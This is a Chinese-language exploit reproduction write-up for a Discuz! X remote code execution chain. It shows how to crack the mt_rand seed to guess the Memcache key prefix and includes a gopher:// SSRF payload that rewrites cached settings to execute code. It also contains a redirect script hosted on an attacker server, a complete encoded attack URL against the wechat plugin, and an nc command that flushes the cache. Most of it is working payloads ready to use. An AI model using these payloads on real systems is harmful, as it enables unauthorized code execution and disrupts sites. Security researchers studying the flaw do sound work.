 ```yaml
---
title: Discuz authkey+Memcache+ssrf getshell
id: zhfly2870
---
```


# Discuz! X authkey+Memcache+ssrf getshell

## 一、漏洞简介

需要得到authkey

## 二、漏洞影响

## 三、复现过程

Dz 整合 Memcache 配置成功后，默认情况下网站首页右下角会出现`MemCache On`的标志：

![image](../img/93b92ad9102837854f7b8dc19754955d.png)

Dz 在安装的时候，对于缓存中的键名加了随机字符串作为前缀。所以如果 SSRF 要攻击 Memcache ，第一个问题是，如何找到正确的键名？

`install/index.php` 345-357行：

```
 $uid = DZUCFULL ? 1 : $adminuser['uid'];
        $authkey = md5($_SERVER['SERVER_ADDR'].$_SERVER['HTTP_USER_AGENT'].$dbhost.$dbuser.$dbpw.$dbname.$username.$password.$pconnect.substr($timestamp, 0, 8)).random(18);
        $_config['db'][1]['dbhost'] = $dbhost;
        $_config['db'][1]['dbname'] = $dbname;
        $_config['db'][1]['dbpw'] = $dbpw;
        $_config['db'][1]['dbuser'] = $dbuser;
        $_config['db'][1]['tablepre'] = $tablepre;
        $_config['admincp']['founder'] = (string)$uid;
        $_config['security']['authkey'] = $authkey;
        $_config['cookie']['cookiepre'] = random(4).'_';
        $_config['memory']['prefix'] = random(6).'_';

```
 save_config_file(ROOT_PATH.CONFIG, $_config, $default_config); 
``` 
```

这是 Dz 在安装的时候的一段代码，这段代码设置了 authkey、Cookie 前缀以及缓存键名前缀，其中用到了`random`函数生成随机字符串。所以跟进这个`random`：

```
function random($length) {
    $hash = '';
    $chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789abcdefghijklmnopqrstuvwxyz';
    $max = strlen($chars) - 1;
    PHP_VERSION < '4.2.0' && mt_srand((double)microtime() * 1000000);
    for($i = 0; $i < $length; $i++) {
        $hash .= $chars[mt_rand(0, $max)];
    }
    return $hash;
} 
```

可以发现，如果 PHP 版本大于 4.2.0，那么 `mt_rand` 随机数的种子是不变的。也就是说，生成 authkey、Cookie 前缀以及缓存键名前缀时调用的 `mt_rand` 用的都是同一个种子，而 Cookie 前缀是已知的，通过观察 HTTP 请求就可以知道。因此，随机数播种的种子可以被缩到一个极小的范围内进行猜解。这里可以用 [php_mt_seed](https://link.zhihu.com/?target=http%3A//www.openwall.com/php_mt_seed/README) 进行种子爆破。

通过 `mt_rand` 种子的猜解，缓存键名前缀的可能性从 62^6 缩小到不到 1000 个，这就完全属于可以爆破的范畴了。对猜解出来的所有可能的缓存键名前缀分别构造 SSRF 请求发送到服务器，最后即能更改某一键名对应的键值。

Memcache 缓存键名的问题解决了，接下来的问题是，缓存数据被加载到哪了？如何通过修改缓存数据来 getshell？

这一部分的思路就可以直接参照 chengable 写的那篇文章了，`output_replace` 函数细节有略微变化，但大体思路是一致的，所以我也不再赘述了。

最后准备用 gopher 协议构造 SSRF 的 payload。写这样一段代码（先假设缓存键名前缀是 `IwRW7l`）:

```
<?php

$_G[‘setting’][‘output’][‘preg’][‘search’][‘plugins’] = ‘/.*/’;

$_G[‘setting’][‘output’][‘preg’][‘replace’][‘plugins’] = ‘phpinfo()’;

$_G[‘setting’][‘rewritestatus’] = 1; `$memcache = new Memcache;

$memcache->connect(‘localhost’, 11211) or die (“Could not connect”);

$memcache->set(‘IwRW7l_setting’, $_G[‘setting’]);` 
```

运行这段 PHP 代码，同时抓包，然后将数据包改成 gopher 的形式，即：

```
gopher://localhost:11211/_set%20IwRW7l_setting%201%200%20161%0d%0aa%3A2%3A%7Bs%3A6%3A%22output%22%3Ba%3A1%3A%7Bs%3A4%3A%22preg%22%3Ba%3A2%3A%7Bs%3A6%3A%22search%22%3Ba%3A1%3A%7Bs%3A7%3A%22plugins%22%3Bs%3A4%3A%22%2F.*%2F%22%3B%7Ds%3A7%3A%22replace%22%3Ba%3A1%3A%7Bs%3A7%3A%22plugins%22%3Bs%3A9%3A%22phpinfo()%22%3B%7D%7D%7Ds%3A13%3A%22rewritestatus%22%3Bi%3A1%3B%7D 
```

但是直接用它去 SSRF 是不可以的，会被`_xss_check`检测到特殊字符而被拒绝请求：

![image](../img/13737dd66822810385f459021365385b.png)

所以利用这里请求跟随跳转的特点，在自己的远程服务器上放类似于这样的一个脚本：

```
<?php `$url = base64_decode($_REQUEST[‘url’]);

header( "Location: " . $url );` 
```

这样就可以将 SSRF URL 进行 base64 编码从而规避`_xss_check`的检测。

```
http://target/plugin.php?id=wechat:wechat&ac=wxregister&username=vov&avatar=http%3A%2F%2Fattacker.com%2F302.php%3Furl%3DZ29waGVyOi8vbG9jYWxob3N0OjExMjExL19zZXQlMjBJd1JXN2xfc2V0dGluZyUyMDElMjAwJTIwMTYxJTBkJTBhYSUzQTIlM0ElN0JzJTNBNiUzQSUyMm91dHB1dCUyMiUzQmElM0ExJTNBJTdCcyUzQTQlM0ElMjJwcmVnJTIyJTNCYSUzQTIlM0ElN0JzJTNBNiUzQSUyMnNlYXJjaCUyMiUzQmElM0ExJTNBJTdCcyUzQTclM0ElMjJwbHVnaW5zJTIyJTNCcyUzQTQlM0ElMjIlMkYuKiUyRiUyMiUzQiU3RHMlM0E3JTNBJTIycmVwbGFjZSUyMiUzQmElM0ExJTNBJTdCcyUzQTclM0ElMjJwbHVnaW5zJTIyJTNCcyUzQTklM0ElMjJwaHBpbmZvKCklMjIlM0IlN0QlN0QlN0RzJTNBMTMlM0ElMjJyZXdyaXRlc3RhdHVzJTIyJTNCaSUzQTElM0IlN0Q%253D&wxopenid=xxxyyy 
```

再访问`/forum.php?mod=ajax&action=getthreadtypes&inajax=yes`，即可看到`phpinfo()`代码已被执行：

![image](../img/09cb65c9789ccc82c3e51a854b7eb68c.png)

由于缓存被暴力篡改，会导致网站无法正常运行。恢复正常办法是刷新缓存。用上面的思路直接一次 getshell 后执行以下命令，网站就可以恢复正常：

```
echo -e 'flush_all' | nc localhost 11211 
```

## 参考链接

> https://zhuanlan.zhihu.com/p/51907363